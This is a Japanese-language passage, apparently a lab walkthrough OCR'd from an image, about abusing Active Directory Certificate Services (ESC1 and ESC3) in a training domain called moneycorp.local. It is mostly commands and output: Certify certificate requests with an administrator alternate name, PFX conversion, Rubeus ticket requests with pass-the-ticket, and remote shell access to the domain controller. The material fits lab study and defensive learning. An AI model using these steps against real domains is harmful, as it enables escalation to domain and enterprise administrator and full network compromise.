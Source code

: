 ```
C:\AD\Tools> C:\AD\Tools\Certify.exe request /ca:mcorp
dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" 
/altname:moneycorp.local\administrator 
[snip]
```
---
7. esc1-EA.pemに証明書を保存し、PFXに変換します。私はSecretPass@123をエクスポートパスワードとして使用します。
```
C:\AD\Tools>C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export 
-out C:\AD\Tools\esc1-EA.pfx 
[snip] 
```
---
8. Rubeusを使用して、エンタープライズ管理者 - 管理者にTGTをリクエストする。
```
C:\AD\Tools>echo %Pwn% 
asktgt 
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:esc1-EA.pfx /password:SecretPass@123 /ptt 
[snip] 
```
---
9. 最後に、mcorp-dcにアクセス！
```
C:\AD\Tools>winrs -r:mcorp-dc cmd /c set username 
USERNAME=administrator
```
---
## ESC3を使用したDAおよびEAへの特権昇格 
1. moneycorpで脆弱なテンプレートをリストアップすると、次のような結果が得られます。
```
C:\AD\Tools>C:\AD\Tools\Certify.exe find /vulnerable 
[snip] 
[!] Vulnerable Certificates Templates : 
 
    CA Name                               : mcorp
dc.moneycorp.local\moneycorp-MCORP-DC-CA 
    Template Name                         : SmartCardEnrollment-Agent 
    Schema Version                        : 2 
    Validity Period                       : 10 years 
    Renewal Period                        : 6 weeks 
    msPKI-Certificates-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, 
SUBJECT_REQUIRE_DIRECTORY_PATH 
    mspki-enrollment-flag                 : AUTO_ENROLLMENT 
    Authorized Signatures Required        : 0 
    pkiextendedkeyusage                   : Certificate Request Agent 
    mspki-certificate-application-policy  : Certificate Request Agent 
    Permissions 
      Enrollment Permissions 
        Enrollment Rights           : dcorp\Domain Users            S-1-5-21
335606122-960912869-3279953914-513 
                                      mcorp\Domain Admins           S-1-5-21
335606122-960912869-3279953914-512 
                                      mcorp\Enterprise Admins       S-1-5-21
335606122-960912869-3279953914-519 
```
---
2. SmartCardEnrollment-Agentテンプレートは、証明書要求エージェントにEKUを持ちDomainユーザに登録権限を付与する。
